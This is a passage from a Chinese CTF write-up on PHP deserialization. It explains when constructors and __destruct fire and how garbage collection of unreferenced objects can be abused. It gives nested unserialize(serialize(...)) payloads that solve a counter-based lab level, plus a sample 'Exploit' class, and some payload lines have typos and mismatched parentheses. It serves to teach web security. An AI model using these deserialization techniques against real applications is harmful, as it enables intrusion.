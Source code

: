 构造函数只会在类实例化的时候 —— 也就是使用 new 的方法手动创建对象的时候才会触发，而通过反序列化创建的对象不会触发这一方法，这也是为什么，在前面的内容，我将反序列化的对象创建过程称作为 “**还原**”。

析构函数会在对象被回收的时候触发 —— 手动回收和自动回收。

手动回收：就是代码中演示的 unset 方法用于释放对象。

自动回收：对象没有值引用指向，或者脚本结束完全释放，具体看题目中的演示结合该部分文字应该不难理解。

题目要求 全局变量 标识符flag的值大于5，根据 __destruct() 和 PHP GC 的特性，我们可以不断地去序列化和反序列化一个对象，然后不给该对象具体的引用以触发自动销毁机制。

> [!success] 操作方法

老规矩，先看源码，给出了一个例子，同时本题创建一次就计算+1一次
![Pasted image 20250406101840.png](/img/user/PNG/Pasted%20image%2020250406101840.png)
![Pasted image 20250406101854.png](/img/user/PNG/Pasted%20image%2020250406101854.png)
payload构造，根据补充知识可知，我们只需要不停的序列化反序列化化4次，再加上创建实例的一次，就达到了五次计数
```
code=unserialize(serialize(new REFLAG()))    //2
code=unserialize(serialize(unserialize(serialize(new REFLAG()))))   //3
code=unserialize(serialize(unserialize(serialize(unserialize(serialize(new REFLAG()))))))     //4
code=unserialize(serialize(unserialize(serialize(unserialize(serialize(unserialize(serialize(new RELFLAG())))))))));
code=unserialize(serialize(unserialize(serialize(unserialize(serialize(unserialize(serialize(new RELFLAG()))))))));
```



> [!INFO] 知识补充：什么是没有具体的引用？
- 当对象**没有被任何变量、数组或属性引用**时，PHP 会将其标记为“垃圾”。
```
$obj = new MyClass(); // $obj 是对象的引用
$obj = null;         // 取消引用，对象变为“无引用状态”
```
此时对象 `MyClass` 的实例没有引用指向它，GC 会触发 `__destruct()`。

**如何利用这一点？**
- 如果不断反序列化对象，**但不保留它们的引用**，每次反序列化的对象都会因无引用而被销毁，从而触发 `__destruct()`。
```
class Exploit {
    public function __destruct() {
        global $flag;
        if ($flag > 5) { /* 执行恶意逻辑 */ }
    }
}
// 反复反序列化且不保留引用
unserialize($serializedData); // 反序列化后对象无引用，立即触发 __destruct__
```

 **为什么这样能触发 `__destruct()`？**
- PHP 的垃圾回收机制（GC）会周期性地清理无引用的对象（引用计数为 0）。
- 反序列化后，如果没有将对象赋值给变量（如 `$obj = unserialize(...)`），该对象会**立即失去引用**，从而被 GC 回收，触发 `__destruct()`。


### LEVEL 9:构造函数的漏洞
